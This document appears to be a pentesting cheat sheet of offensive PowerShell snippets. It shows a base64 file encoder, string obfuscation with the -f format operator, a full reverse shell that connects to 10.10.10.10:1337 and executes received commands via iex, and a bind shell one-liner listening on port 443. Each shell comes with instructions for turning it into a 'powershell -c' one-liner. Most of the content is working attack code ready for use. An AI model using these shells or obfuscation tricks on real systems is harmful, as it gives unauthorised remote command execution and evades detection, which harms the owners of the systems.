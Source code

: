 ## Encoding
```powershell
powershell -c [convert]::ToBase64String((cat $file -Encoding byte)) 
```

## Formatting
Powershell formating leads to obsucation with [-f Format operator](https://ss64.com/ps/syntax-f-operator.html)
```powershell
${string} = ("{9}{8}{7}{6}{5}{4}{3}{2}{1}{0}"-f'Power','shell',' Formatting',' is',' obfuscation',' through',' ordering',' of',' parametres and splitting','strings')
echo $string 
```

## PowerShell Reverse Shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 1337);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```
Enclose with:
```powershell
 powershell -c "<code>"
```
For the one liner

## PowerShell Bind Shell
Remember to change local addresss accordingly, some localhosts won't be `0.0.0.0`
```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()
```
Enclose with:
```powershell
 powershell -c "<code>"
```
For the one liner.
